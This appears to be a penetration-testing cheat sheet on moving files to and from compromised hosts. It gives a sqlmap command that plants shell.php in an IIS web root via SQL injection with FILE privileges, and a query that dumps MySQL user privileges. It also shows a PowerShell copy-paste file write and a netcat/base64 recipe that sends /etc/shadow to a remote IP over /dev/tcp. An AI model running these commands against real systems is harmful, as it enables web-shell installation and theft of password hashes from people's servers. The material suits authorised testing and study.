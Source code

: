 

### SQLMAP - User w/ FILE Privileges

If you have SQLi with a user account that has `FILE` privileges, you can use `sqlmap` to transfer the file to disk without formulating an `INFO FILE` query yourself:

```bash
root@kali:~ ❯ sqlmap -r inject.req --dbms "mysql" --file-write shell.php --file-dest \\inetpub\\wwwroot\\shell.php
```

To see if you have the privilege, attempt (you might not have rights) to dump the `user` table:

```bash
root@kali:~ ❯ sqlmap -r inj.req --dbms "mysql" -D mysql -T user -C User,File_Priv --dump
.. SNIP ..
[2 entries]
+---------+-----------+
| User    | File_Priv |
+---------+-----------+
| burmat  | Y         |
| root    | Y         |
+---------+-----------+
```

### XML File Creation on Target (via copy/paste)

This is a clever way to get XML over to the system using copy and paste, and writing that XML to file:

```
PS C:\> $console = [XML] @"
<XML CODE CODE HERE>
"@

# write the xml to file:
PS C:\> $console.save("C:\users\burmat\documents\console.xml")
```

### Base64

#### Using netcat

```bash
# receiving host
nc -lp 4443 | base64 -d > loot.txt

# sender host
base64 /etc/shadow > /dev/tcp/10.10.10.123/4443
```

#### Copy and Paste

```bash
## encode from file with:
base64 <<< $(cat shell.py) | tr -d "\n"

## decode to file with:
echo -n "ZmlsZSBjb250ZW50IGhlcmUK" | base64 -d > shell.py
```

